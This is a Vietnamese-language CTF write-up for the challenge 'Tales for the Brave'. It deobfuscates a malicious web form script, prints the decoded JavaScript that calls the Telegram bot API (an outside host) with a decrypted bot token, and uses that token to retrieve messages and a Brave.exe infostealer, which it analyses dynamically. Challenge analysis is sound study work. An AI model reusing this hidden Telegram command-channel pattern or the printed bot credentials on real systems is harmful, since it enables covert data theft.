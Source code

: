 # Tales for the Brave 

### Details:


### Solution:

Đề cho chúng ta một đoạn obfuscate js. Ta tiến hành tách từng đoạn nhỏ và chạy nó trên Console (vì nó có sử dụng `CryptoJS` nên ta sẽ sử dụng Console trên web Docker của đề <Vì nó import sẵn library cho mình rồi>)

Đoạn nhỏ đầu tiên ta có:
```
var _$_9b39=(function(n,w){var r=n.length;var j=[];for(var e=0;e< r;e++){j[e]= n.charAt(e)};for(var e=0;e< r;e++){var d=w* (e+ 439)+ (w% 33616);var a=w* (e+ 506)+ (w% 38477);var v=d%r;var p=a%r;var x=j[v];j[v]= j[p];j[p]= x;w= (d+ a)% 3525268};var c=String.fromCharCode(127);var q='';var m='%';var t='#1';var o='%';var u='#0';var k='#';return j.join(q).split(m).join(c).split(t).join(o).split(u).join(k).split(c)})("Ats8ep%%e6Sr%prB%feUseEynatcc4%ad",1198358);;;;;;;;;;;;;
```
![image](assets/1.png)

Ta được `_$_9b39 = ['decrypt', 'AES', 'parse', 'Base64', 'enc', 'Utf8']`

Ở đoạn thứ 2 ta có:
```
eval(CryptoJS[_$_9b39[1]][_$_9b39[0]]({ciphertext:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape(".....")))},
CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("..."))),
{iv:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("....")))}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));
```

Sau khi lấy giá trị từ `_$_9b39` ta có một đoạn hoàn chỉnh là:
```
CryptoJS.AES.decrypt(
    {ciphertext: CryptoJS.enc.Base64.parse(btoa(unescape(".....")))},
    CryptoJS.enc.Base64.parse(btoa(unescape("....."))),
    {iv: CryptoJS.enc.Base64.parse(btoa(unescape("....")))}
  ).toString(CryptoJS.enc.Utf8);
```

Code này sẽ decrypt ciphertext bằng AES, ta tiến hành nhập từng đoạn vào Console:

Ciphertext:

![image](assets/2.png)

![image](assets/3.png)

Key và IV:

![image](assets/4.png)

```
Key: dbed986cb189a14795f28ab317af4c2db2073729cf54bc93
IV: e4752614ca4a372f3809fcc60d09308a
```

Ta đút vào CyberChef, ta có đoạn obfuscate thứ 2 ........

![image](assets/5.png)

Làm các bước tương tự như ở phần 1 ta có code hoàn chỉnh:
```js
_$_5975 = ['nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==',
           's3cur3k3y',
           'Base64', 'enc', 'toString', '', 'join', 'SHA256', 
           '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=', // Hash to verify
           'Utf8', 'parse', 'decrypt', 'RC4Drop', 'https://api.telegram.org', 
           'fromCharCode', 'onreadystatechange', 'readyState', 'DONE', 'responseText', 
           'text', 'result', 'log', 'replace', 'location', 'Form submitted!', 
           'GET', 'forwardMessage?chat_id=', '&from_chat_id=', '&message_id=5', 'open', 'send']

function G(r) {
    return function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 7 - t) 
        }).join('')
    }(43, 106, 167, 103, 163, 98) + 
    1354343..toString(36).toLowerCase() + 
    21..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    4..toString(36).toLowerCase() + 
    32..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -39) 
    }).join('') + 
    381..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 60 - t) 
        }).join('')
    }(42, 216, 153, 153, 213, 187);
}

document.getElementById("newsletterForm").addEventListener("submit", function(e) {
  e.preventDefault();
  const emailField = document.getElementById("email");
  const descriptionField = document.getElementById("descriptionField");
  let isValid = true;
  if (!emailField.value) {
    emailField.classList.add("shake");
    isValid = false;
    setTimeout(() => {
      return emailField.classList.remove("shake");
    }, 500);
  }
  if (!isValid) {
    return;
  }
  const emailValue = emailField.value;
  const specialKey = emailValue.split("@")[0];
  const desc = parseInt(descriptionField.value, 10);
  f(specialKey, desc);
});

function f(oferkfer, icd) {
  const channel_id = -1002496072246;
  var enc_token = "nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==";
  // _$_5975[1] = s3cur3k3y
  // _$_5975[8] = 18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=
  if (oferkfer === G(_$_5975[1]) && 
        CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === _$_5975[8]) {
    var decrypted = CryptoJS.RC4Drop.decrypt(
            enc_token, 
            CryptoJS.enc.Utf8.parse(oferkfer), 
            { drop: 192 }
        ).toString(CryptoJS.enc.Utf8);
    var HOST = "https://api.telegram.org/bot"+ decrypted;
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        const resp = JSON.parse(xhr.responseText);
        try {
          const link = resp.result.text;
          window.location.replace(link);
        } catch (error) {
          alert("Form submitted!");
        }
      }
    };
    xhr.open("GET", HOST + "/" + "forwardMessage?chat_id=" + icd + "&from_chat_id=" + channel_id + "&message_id=5");
    xhr.send(null);
  } else {
    alert("Form submitted!");
  }
}
var sequence = [];

function l() {
  sequence.push(this.id);
}
var checkboxes = document.querySelectorAll("input[class=cb]");
for (var i = 0; i < checkboxes.length; i++) {
  checkboxes[i].addEventListener("change", l);
}

```

Ta tìm giá trị `oferkfer` để lấy giá trị của cho việc decrypt biến `decrypted`:

![image](assets/6.png)

`oferkfer = 0p3r4t10n_4PT_Un10n`

Ta tiến hành tìm giá trị của `decrypted`:

![image](assets/7.png)

`decrypt = 7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc`

Ta có link bot telegram hoàn chỉnh: `https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc`

Ta có thể `/getMe` để lấy thông tin về bot và xác định được tên của con bot là `OperationEldoriaBot`

Ta sẽ sử dụng API `forwardMessage` để kéo tất cả tin nhắn về Telegram của ta. Nhưng ta chỉ có thể làm việc đó nếu ta có ID chat của ta và con bot. Thế nên ta tiến hành gửi tin nhắn cho con bot

![image](assets/8.png)

Sau khi đã khỏi tạo đoạn chat, thông tin sẽ update ở `/getUpdates` của con bot.

Ta lấy được `chat_id` của mình và hoàn thành url hoàn chỉnh thực hiện API `forwardMessage`

```
https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=xxx&from_chat_id=-1002496072246&message_id=x
```

Khi ta test, có tất cả 11 đoạn chat và trong số đó có một vài cái đặc biệt
```
message_id = 3: "Interesting. Their reliance on **Brave** works in our favor. Send over the tool and a brief summary of its capabilities."
message_id = 6: Zip file
message_id = 9 -> Cho password cho dr4g0nsh34rtb3l0ngst0m4l4k4r
```

Ta tải file và tiến hành giải nén, ta có được 1 file `Brave.exe`

**Ta thử phân tích nhưng không có bất kỳ thứ gì khả nghi**. Vì vậy ta phải đổi sang hướng **Dynamic Analysis**. Về cơ bản method này nhằm để nắm bắt hành vi của con `Brave.exe` này

Ta tiến hành mở Fakenet-NG (Tool cho Dynamic Network Analysis) và chạy `Brave.exe` cùng Browser Brave (vì trong mess_id 3, người ta có nhắc đến việc người dùng sử dụng Brave sẽ có lợi cho họ nên ta nghĩ là con `Brave.exe` này sẽ làm gì đó với dữ liệu bla bla của Brave)

Malware gửi POST request với JSON data tới endpoint. Ta tìm được flag nằm trong JWT Token trên POST request

![image](assets/9.png)

![image](assets/10.png)

![image](assets/11.png)



Flag: `HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}`
